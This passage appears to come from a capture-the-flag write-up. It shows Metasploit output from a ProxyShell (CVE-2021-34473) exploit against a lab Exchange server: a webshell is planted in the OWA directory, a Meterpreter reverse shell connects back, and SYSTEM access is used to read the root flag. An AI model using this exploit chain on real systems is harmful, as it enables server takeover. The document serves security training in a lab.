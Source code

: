 ```console
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-12ouo7a66m7.thm.local
[*] Assigning the 'Mailbox Import Export' role via dev-infrastracture-team@thm.local
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2402911436-1669601961-3356949615-1144 (dev-infrastracture-team@thm.local)
[*] Saving a draft email with subject '6Czf7HB4R' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\apDaboA9.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (203846 bytes) to 10.10.34.30
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\apDaboA9.aspx
[*] Meterpreter session 1 opened (10.8.x.x:4444 -> 10.10.34.30:13213) at 2025-04-14 12:58:17 -0400
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > whoami
[-] Unknown command: whoami. Run the help command for more details.
meterpreter > shell
Process 13648 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system

```


After successfully initializing the payload, all that remained was to search through the files and read the root flag. After navigating through a few directories, I found it in the `Documents` folder.

```console
c:\Users\Administrator\Documents>type flag.txt
type flag.txt
THM{Looking_Back_Is_Not_Always_Bad}
c:\Users\Administrator\Documents>
```